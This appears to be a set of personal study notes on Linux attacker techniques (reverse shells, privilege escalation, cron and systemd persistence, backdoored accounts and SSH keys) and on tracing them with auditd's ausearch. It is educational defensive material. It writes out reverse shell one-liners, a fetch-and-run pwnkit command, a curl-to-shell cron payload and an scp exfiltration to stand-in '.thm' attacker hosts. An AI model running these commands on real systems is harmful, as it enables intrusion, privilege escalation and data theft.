

# Reverse Shells & Auditd Detection

## The Objective
Initial access usually yields restricted environments. Attackers spawn **Reverse Shells** (victim connects to attacker) for a stable terminal. 

## Common Payloads
* **Bash:** `bash -i >& /dev/tcp/<IP>/<PORT> 0>&1`
* **Socat:** `socat TCP:<IP>:<PORT> EXEC:'bash',pty,stderr,setsid,sigint,sane`
* **Python:** `python3 -c '[...] s.connect(("<IP>",<PORT>));pty.spawn("bash")'`

## Detection (`auditd`)
Map the process tree via `ausearch`.

**1. Identify Shell**
Extract `pid` and `ppid`.
`ausearch -i -x socat`

**2. Trace Origin (Move UP)**
Query `ppid` to find the vulnerable service.
`ausearch -i --pid <PPID>`

**3. Track Activity (Move DOWN)**
Query shell's `pid` as parent to list attacker commands.
`ausearch -i --ppid <PID> | grep proctitle`

---

# Privilege Escalation & Detection

## The Core Problem
Initial access is rarely root. Attackers land as restricted users and must escalate privileges to fully compromise the system.

## Escalation Vectors
* **Kernel Exploits:** `wget http://bad.thm/pwnkit.sh | bash`
* **SUID Misconfigurations:** `/bin/env /bin/bash -p`
* **Exposed Credentials:** `ssh root@127.0.0.1 -i ssh-backup-key`

## Detection Strategy
Don't waste time hunting specific exploit signatures—there are thousands. Hunt the surrounding behavior sequence:

**1. Discovery Spikes**
`whoami`, `uname -r`, `ps aux | egrep "edr|splunk|elastic"`

**2. Staging in `/tmp`**
`wget http://c2-server.thm/pwnkit.c -O /tmp/pwnkit.c`
`gcc /tmp/pwnkit.c -o /tmp/pwnkit`
`chmod +x /tmp/pwnkit`
`/tmp/pwnkit`

**3. Post-Escalation Exfiltration**
`tar czf dump.tar.gz /root /etc/`
`scp dump.tar.gz attacker@c2-server.thm:~`

## Auditd Verification
Confirm successful escalation by checking if the `uid` changed from a standard user to root during the process.

**1. Locate Exploit Execution** (Note `uid` and `pid`)
`ausearch -i -x pwnkit`

**2. Confirm Root Spawn** (Query the exploit's `pid` as `ppid`, look for `uid=root`)
`ausearch -i --ppid <EXPLOIT_PID>`

**3. Track Root Activity** (Query the new root shell's `pid` to see post-exploitation commands)
`ausearch -i --ppid <ROOT_SHELL_PID>`

---

# Linux Persistence & Detection

## The Core Concept
Threat actors require long-term access to survive system reboots. They achieve this by weaponizing native Linux scheduling and service management tools.

## Common Persistence Mechanisms
* **Cron Jobs:** Scheduled tasks that run on a timer or at boot.
  * Payloads: `@reboot /path/to/malware` or `*/10 * * * root (curl <IP>) | sh`
  * Key Locations: `/var/spool/cron/<user>`, `/etc/crontab`, `/etc/cron.d/*`
* **Systemd Services:** Malicious `.service` files masquerading as trusted system components.
  * Key Locations: `/lib/systemd/system/*`, `/etc/systemd/system/*`

## Detection Strategy
Focus on monitoring configuration file modifications and process execution for task managers.

**1. Detect Systemd Modifications**
Monitor for file creations or edits inside systemd directories.
`ausearch -i -f /etc/systemd`

**2. Detect Cron Job Setup**
Monitor for `crontab` execution or manual edits to cron files.
`ausearch -i -x crontab`
`ausearch -i -x nano | grep /etc/crontab`

------	
---
# Account & Application Persistence

## The Core Concept
Attackers maintain long-term access without relying on active malware by backdooring legitimate user accounts or applications.

## 1. Malicious User Accounts
Attackers create new users and assign them to privileged groups (e.g., `sudo`) for persistent SSH access.
* **Detection:** Hunt for creation/modification events in auth logs, then trace the `pid` via `auditd`.
  * `cat /var/log/auth.log | grep -E 'useradd|usermod'`
  * `ausearch -i --ppid <PID>`

## 2. Backdoored SSH Keys
Attackers append their public key to a compromised user's `~/.ssh/authorized_keys` to allow passwordless login.
* **Detection:** Monitor file modifications directly with `auditd`. 
  * *Note:* Do not rely on process tracking for this. Shell builtins like `echo` will only log as the generic `bash` process.
  * `ausearch -i -f /.ssh/authorized_keys`

## 3. Application-Layer Persistence
Attackers backdoor a public-facing web app (e.g., dropping a web shell in a compromised WordPress site).
* **Detection:** Operates above the OS layer, so `auditd` and system logs will likely miss it. If malware continuously reappears after clearing system-level persistence, audit your exposed web applications.
---

# Targeted Attacks & Enterprise Risk

## Linux Threat Profiles
* **Entry Point Vector:** Public-facing Linux servers (firewalls, web, mail) act as initial access vectors into heavily guarded Windows networks.
* **Espionage Targets:** State-sponsored actors target Linux servers for information theft, frequently utilizing native mechanisms like systemd for persistence.
* **Ransomware Vector:** Hypervisors hosting hundreds of virtual machines run on Linux. Compromising the host hypervisor encrypts the entire infrastructure simultaneously.

---
this is what we learned so far:

